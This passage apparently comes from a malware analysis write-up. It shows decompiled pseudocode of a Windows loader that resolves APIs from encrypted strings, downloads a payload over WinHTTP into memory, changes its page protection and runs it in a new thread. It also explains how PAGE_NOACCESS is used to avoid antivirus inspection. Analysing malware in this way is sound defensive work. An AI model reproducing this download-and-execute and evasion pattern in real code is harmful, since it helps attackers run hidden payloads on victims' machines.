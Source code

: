 Immediately after, it reads the content of the HTTP response and places it into the newly allocated memory region:

```c
GetEncryptedDataOf_WinHttpReadData(&var_4d9, &var_4d8);
void* name_WinHttpReadData = DecryptData_8(&var_4d8);
void var_509;
void var_508;
GetEncryptedDataOf_winhttp_10(&var_509, &var_508);
void* name_winhttp_9;
int64_t r8_11;
name_winhttp_9 = DecryptData_4(&var_508);
void* WinHttpReadData = ResolveFunction(name_winhttp_9, name_WinHttpReadData, r8_11, r9_7);
int64_t r9_9 = WinHttpReadData(hRequest, *(uint64_t*)allocated_memory_space, (uint64_t)size, &var_4b8); 
```

> It is assumed that the content of the HTTP response is a shellcode/script that will load the final DLL.

After that, the connection with the server is closed using `WinHttpCloseHandle`. The program then creates a new thread in which the script will be executed.

### Script Execution

Before creating the thread, the program first changes the protections of the memory region where the script is located:

```c
GetEncryptedDataOf_NtProtectVirtualMemory(&var_59, &var_58);
void* name_NtProtectVirtualMemory = DecryptData_9(&var_58);
void var_81;
void var_80;
GetEncryptedDataOf_ntdll(&var_81, &var_80);
void* name_ntdll;
int64_t r8_1;
name_ntdll = GetDecrypted_ntdll(&var_80);
int64_t var_350;
void var_34;
ResolveFunction(name_ntdll, name_NtProtectVirtualMemory, r8_1, r9_1)(-1, &payload_base_address, &payload_size, 1, &var_34, var_350);
```

In this code, the protection is set to `PAGE_NOACCESS`, which allows the malware to avoid detection by Windows Defender (for example). Most antivirus software does not inspect memory pages with this permission.

Thread creation proceeds as follows:

```c
GetEncryptedDataOf_CreateThread(&var_a9, &var_a8);
void* name_CreateThread = DecryptData_10(&var_a8);
void var_d9;
void var_d8;
int64_t r9_2 = GetEncryptedDataOf_kernel32_3(&var_d9, &var_d8);
void* name_kernel32;
int64_t r8_3;
name_kernel32 = DecryptData_2(&var_d8);
void* CreateThread = ResolveFunction(name_kernel32, name_CreateThread, r8_3, r9_2);
var_350 = 0;
void* var_358_1;
(uint32_t)var_358_1 = 4;
int64_t hThread = CreateThread(0, 0, allocated_memory_space, 0, var_358_1, 0);
```
